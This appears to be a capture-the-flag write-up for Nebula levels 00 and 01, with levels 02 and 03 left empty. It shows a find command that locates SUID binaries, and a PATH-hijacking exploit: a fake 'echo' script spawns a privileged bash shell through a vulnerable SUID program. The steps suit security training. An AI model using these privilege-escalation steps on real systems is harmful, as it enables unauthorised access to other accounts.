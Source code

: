 ## Exploit Exercise -- Nebula

### Level 00
#### Chall. Description
> This level requires you to find a Set User ID program that will run as the “flag00” account. You could also find this by carefully looking in top level directories in / for suspicious looking directories.

#### Solution
To find the file, we can use `find` command. Specify `-perm -4000` for SUID and `-user flag00` for the user `flag00`. And since we are going to search from `/`, there will be a lot of "Permission denied" error, we can redirect the stderr to `/dev/null` for the cleanness of the output. 
```bash
level00@nebula:~$ find / -perm -4000 -user flag00 2>/dev/null
/bin/.../flag00
/rofs/bin/.../flag00
```
Both of the binary will do. We can run either of them and run `getflag` to get the flag.
```bash
level00@nebula:~$ /bin/.../flag00
Congrats, now run getflag to get your flag!
flag00@nebula:~$ whoami
flag00
flag00@nebula:~$ getflag
You have successfully executed getflag on a target account
```

### Level 01
#### Chall. Description
> There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?
> Files for this level can be found in /home/flag01.
```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

#### Solution
The binary will get the effective UID and GID, then set it as the real, effective and saved set-user-ID UID. Since the binary has SUID set, the effective UID while running this binary will be the target user `flag01`.
```bash
level01@nebula:~$ ls -l /home/flag01/flag01
-rwsr-x--- 1 flag01 level01 7322 2011-11-20 21:22 /home/flag01/flag01
```
`system()` function executes the command `echo` without specifying the absoulte path, so we can do PATH hijacking here.

First, we create a file named `echo`, which will actually give us a bash shell, and make it executable.
```bash
level01@nebula:~$ cat << EOF > echo
> #!/bin/bash
> /bin/bash -ip
> EOF
level01@nebula:~$ chmod +x echo
```
Then we can hijack the `PATH` environment variable and get the shell of the user `flag01`.
```bash
level01@nebula:~$ PATH=/home/level01:$PATH /home/flag01/flag01
flag01@nebula:~$ whoami
flag01
flag01@nebula:~$ getflag
You have successfully executed getflag on a target account
```

### Level 02
#### Chall. Description

#### Solution


### Level 03
#### Chall. Description

#### Solution
